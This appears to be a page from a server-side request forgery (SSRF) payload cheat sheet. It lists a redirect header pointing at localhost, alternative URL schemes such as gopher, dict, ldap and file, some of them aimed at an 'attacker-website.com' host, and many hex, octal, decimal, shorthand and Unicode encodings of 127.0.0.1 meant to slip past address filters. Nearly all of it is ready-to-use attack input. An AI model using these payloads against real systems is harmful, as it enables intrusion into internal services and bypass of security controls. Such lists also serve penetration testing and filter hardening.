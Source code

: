 ## Add location field in response header from server request.

```
HTTP/1.1 301 Moved Permanently
Server: nginx
Connection: close
Content-Length: 0
Location: http://127.0.0.1
```
## Use different URL scheme

```
file://path/to/file
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
dict://127.0.0.1:1337/stats
ftp://127.0.0.1/
sftp://attacker-website.com:1337/
tftp://attacker-website.com:1337/TESTUDPPACKET
ldap://127.0.0.1:389/%0astats%0aquit
ldaps://127.0.0.1:389/%0astats%0aquit
ldapi://127.0.0.1:389/%0astats%0aquit
gopher://attacker-website.com/_SSRF%0ATest!
```


## Use different IP address format

Dotted hexadecimal IP

```
0x7f.0x0.0x0.0x1
```
Dotless hexadecimal IP

```
0x7f001
```

Dotless hexadecimal IP with padding (padding is 0a0b0c0d)

```
0x0a0b0c0d7f000001
```

Dotless decimal IP 

```
2130706433
```


Dotted decimal IP with overflow (256)

```
383.256.256.257
```

Dotted octal IP

```
0177.0.0.01
```


Dotless octal IP

```
017700000001
```

Dotted octal IP with padding

```
00177.000.0000.000001
```


## Short-hand IP address

```
0.0.0.0 => 0
127.0.0.1 => 127.1
127.0.0.1 => 127.0.1
```


## Enclosed alphanumerics

```
127。0。0。1
127｡0｡0｡1
127．0．0．1
⑫７｡⓪．𝟢。𝟷
𝟘𝖃𝟕𝒇｡𝟘𝔵𝟢｡𝟢𝙭⓪｡𝟘𝙓¹
⁰𝔁𝟳𝙛𝟢０１
２𝟏𝟑𝟢𝟕𝟢６𝟺𝟛𝟑
𝟥𝟪³。𝟚⁵𝟞。²₅𝟞。²𝟧𝟟
𝟢₁𝟳₇｡０｡０｡𝟢𝟷
𝟎𝟢𝟙⑦⁷。０００。𝟶𝟬𝟢𝟘。𝟎₀𝟎𝟢０𝟣
[::𝟏②₇．𝟘．₀．𝟷]
[::𝟭２𝟟｡⓪｡₀｡𝟣%𝟸𝟭⑤]
[::𝚏𝕱ᶠ𝕗:𝟏₂７｡₀｡𝟢｡①]
[::𝒇ℱ𝔣𝐹:𝟣𝟤７。₀。０。₁%②¹𝟧]
𝟎𝚇𝟕𝖋｡⓪｡𝟣
𝟎ˣ𝟩𝘍｡𝟷
𝟘𝟘①𝟕⑦．１
⓪𝟘𝟙𝟳𝟽｡𝟎𝓧₀｡𝟏
```

